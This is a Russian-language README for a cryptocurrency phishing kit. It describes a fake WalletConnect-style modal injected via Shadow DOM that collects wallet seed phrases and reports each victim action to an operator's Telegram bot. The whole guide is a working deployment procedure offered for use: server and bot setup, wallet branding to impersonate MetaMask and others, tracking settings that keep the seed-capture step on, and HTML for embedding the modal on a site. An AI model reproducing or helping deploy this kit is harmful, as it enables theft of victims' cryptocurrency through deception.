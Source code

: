 # web3 seed fake extension

## Описание

Это модальное окно, которое внедряется через ShadowDOM, похоже на [Wallet Connect](https://walletconnect.network/). Можно настроить полный список кошельков для выбора, либо добавить свои. Также после каждого действия пользователя телеграм бот "отстукивает" в личные сообщения (можно настроить этапы).

Здесь можно посмотреть видео на YouTube.
[![Превью](https://www.privacy.com.sg/wp-content/uploads/2022/01/image-50.jpeg)](https://www.youtube.com/watch?v=DEAVbOs7d_4)

## Сервер

Название папки `server`

### Установка Node.JS на ВМ

Перходим в главную директорию

```
cd
cd ..
```

Начинаем установку Node.JS

````ubuntu
sudo apt install build-essential checkinstall
sudo apt install libssl-dev```
wget -qO- https://raw.githubusercontent.com/creationix/nvm/v0.33.8/install.sh | bash
source ~/.profile
source ~/.bashrc
nvm install 20.17.0
````

После установки, выполняем команду `node -v`
В консоли должно быть следующее: `v20.17.0`

### Установка сервера

Копируем, переходим в папку с сервером и устанавливаем зависимости.

```ubuntu
cd /your-folder
npm install
```

### Настройки бота

В файле `.env` меняем на токен собственного телеграм бота и на наш чат id.

ID чата можно узнать здесь `https://api.telegram.org/bot{Token}/getUpdates`
\*Вместо `{Token}` подставить токен бота. В `message.chat.id` будет лежать id чата (перед нужно отправить любое сообщение боту).

### Настройки кошельков

Настройка кошельков осуществляется в файле `wallets_config.json`

```json5
{
"wallets":
    [
        {
          "name": "metamask", //Имя кошелька, позже оно выводится в маршруте, который принимает данные
          "title": "Metamask", //Отображаемое имя кошелька (будет отображаться в качестве названия кошелька)
          "image": "metamask.svg", //Картинка, хранится в папке public (Указываем просто название файла)
          "primarycolor": "#ed9f45", //Основновной цвет темы
          "secondarycolor": "#ed9f4540", //Дополнительный (полупрозрачный)
          "textcolor": "#8c5e29" //Цвет текста на кнопке
        },
     ...
    ]
}
```

Какие цвета за что отвечают
[![instruction.png](https://i.postimg.cc/CKKzhNpf/instruction.png)](https://postimg.cc/0zL8Z7Q8)

Кошельки принимаются клиентом одним массивом, выводятся в порядке очереди.

### Настроки отслеживания действий

Данная настройка осуществляется в файле `request_config.json`

```json5
{
  enter: true, //отслеживание открытия модального окна
  choosewallet: true, //отслеживание выбора кошелька
  chooseseed: true, //отслеживание выбора длины сид фразы
  seed: true, //отключение финального запроса (Если по какой-то причине требуется отключить, но РЕКОМЕНДАЦИЯ! НЕ ТРОГАТЬ ДАННУЮ НАСТРОЙКУ!)
}
```

### (Пропускаем, необязательный пункт) Настройка CORS

В `src/index.js` есть закомментированный код перед регистрацией `fastifyCors`

```
(origin, cb) => {
        if (corsConfig.domains.indexOf(origin) !== -1 || !origin) {
          cb(null, true);
        } else {
          cb(new Error('Not allowed by CORS'));
        }
      },
```

Его нужно вставить вместо `'*',` в `origin: '*',`

Настройка CORS доменов осуществляется в файле `cors.config.js`

```javascript
{
    domains: [
    'https://mydomain.com', 'https://mydomain.ru', 'https://mydomain.io', ...
    ]
}
```

Просто добавляем нужный домен в массив.

### Запуск сервера

Запускаем сервер (По умолчанию на порту `443`).

```bash
npm start
```

## Клиент

Название папки `vue-project`

### Настройка доменов для запроса

В файле `src/views/Main.vue` на `19` и `30` строчках меняем домен.
В файле `src/views/Connect.vue` на `28` строчке меняем домен.

### Сборка

Перед сборкой убедитесь, что `vite.config.js` совпадает с настройками ниже.

```javascript
import { defineConfig } from "vite";
import vue from "@vitejs/plugin-vue";

export default defineConfig({
  plugins: [vue()],
  define: {
    "process.env": {}, // Можно убрать, но не стоит
  },
  build: {
    lib: {
      entry: "./src/main.js",
      name: "WalletModal",
      fileName: (format) => `wallet-modal.${format}.js`,
    },
    rollupOptions: {
      external: ["vue"],
      output: {
        globals: {
          vue: "Vue",
        },
      },
    },
  },
  resolve: {
    alias: {
      "@": "/src",
    },
  },
});
```

Далее собираем проект (Лучше всего делать на локальной машине. Требуется скачать и установить Node.js, если его нет, тут [Ссылка](https://nodejs.org/en))

Далее через Командную строку

```bash
cd ./your-folder
npm install
npm run build
```

В папке `./dist` будет несколько файлов, переносим все на ВМ.

## Настройка `wallet-dom-init.js` и подключение модуля к странице

### Настройка `wallet-dom-init.js`

Открываем файл, на строчке `24` в `@import url('http://localhost:3000/style.css');` вместо `http://localhost:3000` прописываем домен, где размещены файлы из сборки.
Сохраняем и перекидываем этот файл туда же.

### Подключение модуля

Делаем напрямую в `index.html`

! `https://domain.com/` меняем на актуальный домен, где расположен клиент.

Подключается через `Shadow DOM`, чтобы избежать конфликт стилей.

1. Подключаем Vue глобально
2. Подключение клиента
3. Устанавливаем клиент через кастомный элемент `<wallet-modal>` (лучше разместить этот элемент сразу после `<body>`)

```html
<head>
  <script src="https://unpkg.com/vue@3.3.0/dist/vue.global.js"></script>
  <script src="https://domain.com/wallet-modal.umd.js"></script>
  <script async src="https://domain.com/wallet-dom-init.js"></script>
</head>

<body>
  <wallet-modal></wallet-modal>
</body>
```
